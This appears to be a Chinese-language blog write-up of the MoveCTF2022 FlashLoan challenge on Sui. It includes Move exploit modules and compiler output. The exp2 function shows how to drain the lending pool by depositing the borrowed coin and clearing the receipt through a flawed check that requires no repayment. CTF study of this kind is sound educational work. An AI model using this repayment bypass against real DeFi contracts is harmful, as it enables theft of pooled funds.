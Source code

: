 +++
title = 'MoveCTF2022 FlashLoan'
date = 2024-05-31T00:37:25Z
+++

原题目在https://github.com/movebit/movectf-4/blob/master/sources/module.move 考察闪电贷    
由于Move2024有些变化，我对源码做了微调https://github.com/m4sk93/movectf/tree/main/movectf2022/flashloan

## 环境搭建
参考[MoveCTF2022 Checkin](https://m4sk93.github.io/posts/movectf2022_1/)部署题目后，  
为了后续调用方便，在配置文件中添加package ID
```
[package]
name = "movectf2022_flashloan"
edition = "2024.beta" # edition = "legacy" to use legacy (pre-2024) Move
# license = ""           # e.g., "MIT", "GPL", "Apache 2.0"
# authors = ["..."]      # e.g., ["Joe Smith (joesmith@noemail.com)", "John Snow (johnsnow@noemail.com)"]
published-at = "0x2a61d471519b8e85a7730bebcfc3c5cace6ffffb2f5576d593821422d514adc2" # package id

[dependencies]
Sui = { git = "https://github.com/MystenLabs/sui.git", subdir = "crates/sui-framework/packages/sui-framework", rev = "framework/testnet" }

[addresses]
#movectf2022_flashloan = "0x0"
movectf2022_flashloan = "0x2a61d471519b8e85a7730bebcfc3c5cace6ffffb2f5576d593821422d514adc2" # package id

```

## 编写exp
为了调用题目，在配置文件中添加依赖
```
[dependencies]
Sui = { git = "https://github.com/MystenLabs/sui.git", subdir = "crates/sui-framework/packages/sui-framework", rev = "framework/testnet" }
movectf2022_flashloan= { local = "../movectf2022_flashloan/" }
```

初步分析getflag时会检查是否已经把池子抽干,
```
    // check whether you can get the flag
    public entry fun get_flag(self: &mut FlashLender, ctx: &mut TxContext) {
        if (balance::value(&self.to_lend) == 0) {
            event::emit(Flag { user: tx_context::sender(ctx), flag: true });
        }
    }
```
直接试试：
```
/// Module: exp
module exp::exp {

    use sui::tx_context::TxContext;
    use movectf2022_flashloan::flash::{Self, FlashLender};

    public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::get_flag(lender, ctx);
    }
}
```
结果编译时就报错
```
error[E06001]: unused value without 'drop'
   ┌─ ./sources/exp.move:9:37
   │
 8 │         let (coin, receipt) = flash::loan(lender, 1000, ctx);
   │              ---- The local variable 'coin' still contains a value. The value does not have the 'drop' ability and must be consumed before the function returns
 9 │         flash::get_flag(lender, ctx);
   │                                     ^ Invalid return
   │
   ┌─ ./../movectf2022_flashloan/sources/movectf2022_flashloan.move:54:9
   │
54 │     ): (Coin<FLASH>, Receipt) {
   │         ----------- The type 'sui::coin::Coin<movectf2022_flashloan::flash::FLASH>' does not have the ability 'drop'
   │
   ┌─ /home/kali/.move/https___github_com_MystenLabs_sui_git_framework__testnet/crates/sui-framework/packages/sui-framework/sources/coin.move:35:19
   │
35 │     public struct Coin<phantom T> has key, store {
   │                   ---- To satisfy the constraint, the 'drop' ability would need to be added here

error[E06001]: unused value without 'drop'
   ┌─ ./sources/exp.move:9:37
   │
 8 │         let (coin, receipt) = flash::loan(lender, 1000, ctx);
   │                    ------- The local variable 'receipt' still contains a value. The value does not have the 'drop' ability and must be consumed before the function returns
 9 │         flash::get_flag(lender, ctx);
   │                                     ^ Invalid return
   │
   ┌─ ./../movectf2022_flashloan/sources/movectf2022_flashloan.move:24:19
   │
24 │     public struct Receipt {
   │                   ------- To satisfy the constraint, the 'drop' ability would need to be added here
   ·
54 │     ): (Coin<FLASH>, Receipt) {
   │                      ------- The type 'movectf2022_flashloan::flash::Receipt' does not have the ability 'drop'
```
所以必须对coin和receipt进行处理,不能让你贷完就跑路
注意看代码里的这个结构体：
```
    public struct Receipt {
        flash_lender_id: ID,
        amount: u64
    }
```
参考 [Hot Potato](https://examples.sui.io/patterns/hot-potato.html)
(Hot Potato is a name for a struct that has no abilities, hence it can only be packed and unpacked in its module. In this struct, you must call function B after function A in the case where function A returns a potato and function B consumes it.)
```
/// Module: exp
module exp::exp {

    use sui::tx_context::TxContext;
    use movectf2022_flashloan::flash::{Self, FlashLender};

    public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::get_flag(lender, ctx);

        flash::repay(lender, coin);
        flash::check(lender, receipt);
    }
}
```
有借有还，这下成功了.

问题来了，可以不还吗？？？

还有一种利用方式
```
/// Module: exp
module exp::exp {

    use sui::tx_context::TxContext;
    use movectf2022_flashloan::flash::{Self, FlashLender};

    public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::get_flag(lender, ctx);

        flash::repay(lender, coin);
        flash::check(lender, receipt);
    }

    public entry fun exp2(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::deposit(lender, coin, ctx);
        flash::check(lender, receipt);
        flash::withdraw(lender, 1000, ctx);

        flash::get_flag(lender, ctx);
    }

}
```
问题在于：coin可以通过`deposit`消耗掉.通过`check`消耗`receipt`时不需要发送coin.而且check判断余额的方式也不对。

## 拓展(Todo)

使用Navi SDK试一试FlashLoad


## 参考资料

感谢大佬们无私分享
- [MoveCTF 2022 题解](https://lanford33.com/movectf-2022)
- [https://learnblockchain.cn/index.php/article/5025](https://learnblockchain.cn/index.php/article/5025)

